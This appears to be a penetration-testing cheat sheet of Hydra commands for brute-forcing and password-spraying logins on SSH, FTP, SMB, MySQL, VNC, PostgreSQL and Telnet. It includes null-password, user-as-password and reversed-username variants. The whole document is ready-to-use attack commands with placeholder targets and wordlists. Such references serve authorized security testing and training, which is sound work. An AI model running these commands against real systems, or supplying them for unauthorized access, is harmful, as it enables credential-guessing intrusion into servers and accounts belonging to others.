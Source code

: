 # Hydra

% bruteforce, access

## Hydra - ssh - userlist and password list - 22
#platform/linux #target/remote #protocol/ssh #port/22 #cat/ATTACK/BRUTEFORCE-SPRAY 

```bash
hydra -L <userlist> -P <passlist> <ip> ssh 
```

## Hydra - ssh - user and password  - 22
#platform/linux #target/remote #protocol/ssh #port/22 #cat/ATTACK/BRUTEFORCE-SPRAY 

```bash
hydra -l <user|root> -p <password|root> <ip> ssh 
```

## Hydra - ssh - user=password - 22
#platform/linux #target/remote #protocol/ssh #port/22 #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -e s <ip> ssh 
```

## Hydra - ssh - null password - 22
#platform/linux #target/remote #protocol/ssh #port/22 #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -l <user|root> -e n <ip> ssh 
```

## Hydra - ssh - password=reverseuser - 22
#platform/linux #target/remote #protocol/ssh #port/22 #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -e r <ip> ssh 
```

## Hydra - ssh - file "login:pass" format - specify port
#platform/linux #target/remote #protocol/ssh #port/custom #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -t 4 -s <port> -C <file_login_pass> <ip> ssh 
```

## Hydra - ftp - 21 
#protocol/ftp #port/21 #platform/linux #target/remote  #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -P <passlist> <ip> ftp 
```

## Hydra - smb - 445
#protocol/smb #port/445 #platform/linux #target/remote #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -P <passlist> <ip> smb
```

## Hydra - mysql - 3306
#protocol/mysql #port/3306 #platform/linux #target/remote #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -P <passlist> <ip> mysql 
```

## Hydra - vnc - 5900
#protocol/vnc #port/5900 #platform/linux #target/remote #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -P <passlist> <ip> vnc 
```

## Hydra - postgres - 5432
#protocol/postgres #port/5432 #platform/linux #target/remote #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -P <passlist> <ip> postgres
```

## Hydra - telnet - 23
#protocol/telnet #port/23 #platform/linux #target/remote #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -P <passlist> <ip> telnet 
```

= userlist: users.txt
= passlist: pass.txt
